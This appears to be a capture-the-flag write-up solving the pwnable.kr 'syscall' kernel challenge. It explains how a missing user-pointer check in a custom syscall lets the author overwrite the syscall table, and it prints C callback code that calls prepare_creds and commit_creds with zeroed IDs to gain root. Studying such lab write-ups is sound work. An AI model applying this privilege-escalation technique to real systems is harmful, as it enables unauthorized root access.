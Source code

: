 ```yaml
---
layout: post
title:  "Buggy linux syscall exploitation"
date:   2018-07-19 02:36:41 +0100
categories: jekyll update
---
```


tags: #pwnable #rookiss #kernel #kernelexploit #syscall #cred

Writeup
=======

pwnable.kr - Rookiss 'syscall' challange.

Download : http://pwnable.kr/bin/syscall.c

ssh syscall@pwnable.kr -p2222 (pw:guest)

Site
----

pwnable.kr


Solution
========


Gist
----

The kernel has a new syscall on syscall number 223 which will convert lower case bytes to upper case.
The systam call defined in syscall.c has a bug! The kernel does not check whether the supplied paramaters are coming from the user address space. (__user attribute is missing from the param declaration.)
Since this kernel remapped the syscall table to be writable we can use this sycall to actually overwrite its syscall entry with a function we supply! The linux kernel does not have a separate user and kernel linear virtual address space for performance reasons. 
When a syscall is being executed the linux kernel is running on behalf of a process. It also has access to the address space of the process! This makes it possible to reference userspace memory.
What this means is that we can install our own syscall by overwriting the syscall entry 223 then calling the syscall 223 again.
At this point we also have access to kernel space obviously so we can use kernel functions (we can look them up from /proc/kallsyms as they are readable without sudo on that machine). 
We simply clone the current credentials then we overwrite the new cred structure with the id 0 (root id) then we install the new credentials. After this we can return from the syscall and we have root privileges!

Plan
----

0) Lookup the addresses of the following kernel symbols (kernel address space layout randomization is turned off on the host):
   You can use: 
   `cat /proc/kallsyms | grep <symbol>`
    - sys_call_table
    - prepare_creds
    - commit_creds
   sys_call_table is where the function pointers to the syscall handlers are stored.
   struct cred* prepare_creds() is a kernel function (linux/kernel/cred.c) to clone the current cred struct.
   int commit_creds(struct cred*) will install the new credentials to the process.

1) Remap our text section to the heap and make it executable. (Actually it is enough to remap the code that will be executed when in kernel mode)

2) Install our userspace callback function into the 223 syscall entry. The entry 223 is unused - this is where the lower_to_upper syscall is stored originally.
    This is done by supplying to the buggy syscall:
        - destination address: 
            sys_call_table + 223*sizeof(void*)
        - source address:
            our remapped callback's address (NOTICE: remap to an address which will result in an address of the callback so that none of the bytes of the address falls into the lowercase value range as the buggy syscall will try to make it uppercase value.)

3) Trigger the syscall 223 again - now are injected callback will be executed. 

4) Now we should have root priviliges and now just simply open and read the /root/flag file.


Callback
--------

On x86 linux kernel uses registers to pass parameters to function if it can so we need to repsect that when using internal kernel functions.
https://kernelnewbies.org/ABI


// Callback to be installed as syscall to change the process credentials    

::
    #define SYS_CALL_TABLE_BASE 0x8000e348       // sys_call_table
    #define CRED_PREPARE_CRED    0x8003f44c      // prepare_creds
    #define CRED_COMMIT_CRED     0x8003f56c      // commit_creds

    typedef void* (*prepare_creds_ty)(void);        // return struct cred*
    typedef __attribute__((regparm(1))) int   (*commit_creds_ty)(void*);        // takes struct cred*

    void* prepare_creds(void)
    {
        return ((prepare_creds_ty)CRED_PREPARE_CRED)();
    }

    __attribute__((regparm(1)))  // regparam (number) => pass <number> params through registers
    int commit_creds(void* cred) 
    {
        return ((commit_creds_ty)CRED_COMMIT_CRED)(cred);
    }

    __attribute__((regparm(1)))
    void setid_on_cred(void* cred)
    {
        u32* pcred = (u32*)cred;
        int  i = 0;
        // now we should try to 'blindly' modify the uids. struct cred is defined in linux/include/cred.h 
        pcred++;                // jump over the 'usage' field
        for(i=0;i<8;i++) {      // we have 8 'id' members in struct cred - overwrite them with 0 (root id)
            *pcred = 0;         // credential zero is the root id
            pcred++;
        }
    }


    int change_cred(char* a, char* b)
    {
        int  res = -1;
        void* cred = prepare_creds();
        if(!cred) {
            return -1;
        }
        setid_on_cred(cred);
        res = commit_creds(cred);
        return res;
    }

Once the syscall returns the second time (the first was to exploit the bug and overwrite the syscall entry) we have root priviliges.
Now we can open and read the /root/flag file contents simply in userspace.

